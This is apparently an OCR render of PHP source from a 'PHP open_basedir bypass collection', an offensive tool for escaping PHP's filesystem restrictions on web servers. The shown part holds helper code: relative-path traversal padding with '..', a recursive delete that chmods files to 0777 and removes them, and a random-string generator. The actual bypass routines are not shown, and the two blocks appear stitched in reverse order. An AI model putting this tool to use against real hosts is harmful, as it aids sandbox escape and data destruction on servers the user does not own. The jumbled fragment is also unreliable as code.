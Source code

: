 ```php
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```

```php
<?php
/*
PHP open_basedir bypass collection
Works with >= PHP5
By /fd, @filedescriptor(https://twitter.com/filedescriptor)
 */

// Assistant functions
function getRelativePath($from, $to) {
	// some compatibility fixes for Windows paths
	$from = rtrim($from, '\/') . '/';
	$from = str_replace('\\', '/', $from);
	$to = str_replace('\\', '/', $to);

	$from = explode('/', $from);
	$to = explode('/', $to);
	$relPath = $to;

	foreach ($from as $depth => $dir) {
```